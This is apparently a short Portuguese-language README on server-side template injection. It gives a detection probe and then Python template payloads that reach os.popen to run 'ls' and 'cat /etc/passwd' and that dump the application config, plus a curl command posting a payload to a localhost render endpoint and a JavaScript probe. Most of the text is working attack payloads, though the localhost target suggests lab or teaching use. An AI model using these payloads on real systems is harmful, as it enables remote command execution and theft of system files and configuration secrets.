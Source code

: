 Para descobrir a vulnerabilidade, primeiro precisamos saber se a aplicação está vulnerável e depois precisamos saber qual é a linguagem do backend.

1) Descobrir se a aplicação é vulnerável.

Inclua em algum campo de input ou na url o código **{{8*8}}**


2) Descobir a linguagem da aplicação.

### Python

**a)** 

`{{'acacio'.upper()}}`

**b)** 

`{{"".__class__.__mro__[1].__subclasses__()[80].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}`

**c)** 

`{{"".__class__.__mro__[1].__subclasses__()[80].__init__.__globals__['sys'].modules['os'].popen("cat /etc/passwd").read()}}`

**d)** 

`{{config}}`

**e)** Digite o comando abaixo no terminal:
```
curl -X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "input={{config}}" \
http://localhost:5000/render
```

### JavaScript

**a)** 

`{{_createElementBlock.constructor}}`

